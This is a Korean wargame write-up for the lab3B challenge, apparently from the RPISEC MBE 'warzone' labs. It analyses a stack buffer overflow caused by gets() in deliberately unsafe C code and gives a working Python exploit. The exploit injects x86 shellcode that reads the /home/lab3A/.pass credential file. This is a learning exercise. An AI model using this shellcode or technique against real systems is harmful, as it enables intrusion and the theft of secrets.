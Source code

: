 ## 1. 문제 확인
- ID : lab3B
- Target : /level/lab03/lab3B
- flag : /home/lab3A/.pass
```
	lab3B@warzone:/levels/lab03$ ./lab3B
	just give me some shellcode, k
	g4nzzi
	child is exiting...
	lab3B@warzone:/levels/lab03$
```

<br/><br/>
## 2. 취약점 분석
### 2.1 Source Code
```c
	#include <signal.h>
	#include <assert.h>
	#include <stdlib.h>
	#include <stdio.h>
	#include <unistd.h>
	#include <sys/ptrace.h>
	#include <sys/reg.h>
	#include <sys/prctl.h>
	#include <wait.h>
	#include "utils.h"

	ENABLE_TIMEOUT(60)

	/* gcc -z execstack -fno-stack-protector -o lab3B lab3B.c */

	/* hint: write shellcode that opens and reads the .pass file.
		ptrace() is meant to deter you from using /bin/sh shellcode */

	int main()
	{
    	pid_t child = fork();
    	char buffer[128] = {0};
    	int syscall = 0;
    	int status = 0;

    	if(child == 0)
    	{
        	prctl(PR_SET_PDEATHSIG, SIGHUP);
        	ptrace(PTRACE_TRACEME, 0, NULL, NULL);

        	/* this is all you need to worry about */
        	puts("just give me some shellcode, k");
        	gets(buffer);
    	}
    	else
    	{
        	/* mini exec() sandbox, you can ignore this */
        	while(1)
        	{
            	wait(&status);
            	if (WIFEXITED(status) || WIFSIGNALED(status)){
                	puts("child is exiting...");
                	break;
            	}

            	/* grab the syscall # */
            	syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);

            	/* filter out syscall 11, exec */
            	if(syscall == 11)
            	{
                	printf("no exec() for you\n");
                	kill(child, SIGKILL);
                	break;
            	}
        	}
    	}

    	return EXIT_SUCCESS;
	}
```
### 2.2 Code 분석
- 힌트를 보면 .pass 파일을 열고 읽는 쉘코드를 사용하라고 가이드
```c
	/* hint: write shellcode that opens and reads the .pass file.
	ptrace() is meant to deter you from using /bin/sh shellcode */
```
- 부모 프로세스는 ptrace() 함수를 통해 자식 프로세스의 exec 시스템콜은 실행하지 못하도록 필터링
```c
	...
    	/* grab the syscall # */
        syscall = ptrace(PTRACE_PEEKUSER, child, 4 * ORIG_EAX, NULL);
        
        /* filter out syscall 11, exec */
       	if(syscall == 11)
       	{
           	printf("no exec() for you\n");
           	kill(child, SIGKILL);
           	break;
       	}
    ...
```
- 자식 프로세스의 경우, buffer 사이즈가 128byte이지만 gets()함수에서 입력값 제한이 없으므로 overflow 발생
```c
  char buffer[128] = {0};
  ...
  puts("just give me some shellcode, k");
  gets(buffer);
  ...
```
- overflow 시 crash가 발생되는 위치를 확인하기 위해 임의값 128byte + 알파벳 패턴으로 입력 데이터를 만듬
```python
	data = ''
	for i in range(26):
        data += chr(i+0x41)*4

	print("a"*128 + data)
```
```
	lab3B@warzone:/levels/lab03$ python /tmp/lab3b.py > /tmp/lab3b_input
	lab3B@warzone:/levels/lab03$
```
- 입력 데이터를 사용하여 실행하면 overflow에 의해 리턴 주소에서 crash가 발생되고, 발생 위치는 'HHHH'(0x48484848)로 확인됨
```
	gdb-peda$ r < /tmp/lab3b_input
	Starting program: /levels/lab03/lab3B < /tmp/lab3b_input
	[New process 16010]
	just give me some shellcode, k
	Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/libc-2.19.so...done.
	Reading symbols from /usr/lib/debug/lib/i386-linux-gnu/ld-2.19.so...done.

	Program received signal SIGSEGV, Segmentation fault.
	...
        Stopped reason: SIGSEGV
	0x48484848 in ?? ()
	gdb-peda$
```
```
	|-------------------- 156 byte -------------------|
	[aaaaaaaa...aaaaaaaa][AAAABBBBCCCCDDDDEEEEFFFFGGGG][HHHH]
             buffer(128)               dummy(28)            ret
```
- crash 발생 시점의 buffer 변수의 주소는 0xbffff640 이므로, 해당 위치에 쉘코드를 입력하고 리턴주소로 사용하면 쉘코드 실행 가능
```
	[Switching to process 16083]
	[----------------------------------registers-----------------------------------]
	EAX: 0x0
	EBX: 0x45454545 ('EEEE')
	ECX: 0xfbad2088
	EDX: 0xb7fce8a4 --> 0x0
	ESI: 0x0
	EDI: 0x46464646 ('FFFF')
	EBP: 0x47474747 ('GGGG')
	ESP: 0xbffff6e0 ("IIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
	EIP: 0x48484848 ('HHHH')
	EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
        ...
```
```
	gdb-peda$ x/s 0xbffff640
	0xbffff640:     'a' <repeats 128 times>, "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR"...
```

<br/><br/>
## 3. Exploit
- "/home/lab3A/.pass" 파일을 읽는 쉘코드와 리턴주소까지 포함된 입력 데이터를 생성하는 코드를 작성
```python
	shellcode = "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff" + "/home/lab3A/.pass\x00"

	print("\x90"*(128-len(shellcode)) + shellcode + "\x90"*28 + "\x40\xf6\xff\xbf")
```
```
	* 쉘코드 참조 : http://shell-storm.org/shellcode/files/shellcode-73.html
```
- 생성된 입력 데이터로 프로그램을 실행하면 "/home/lab3A/.pass" 파일 내용이 출력됨
  (※ GDB 환경에서의 리턴주소와 실제 프로그램 실행 시 리턴주소는 약간의 차이가 있음)
```
	lab3B@warzone:/levels/lab03$ python /tmp/lab3b.py > /tmp/lab3b_input
	lab3B@warzone:/levels/lab03$ ./lab3B < /tmp/lab3b_input
	just give me some shellcode, k
        [/home/lab3A/.pass 파일 내용 출력]
        child is exiting...
	lab3B@warzone:/levels/lab03$
```
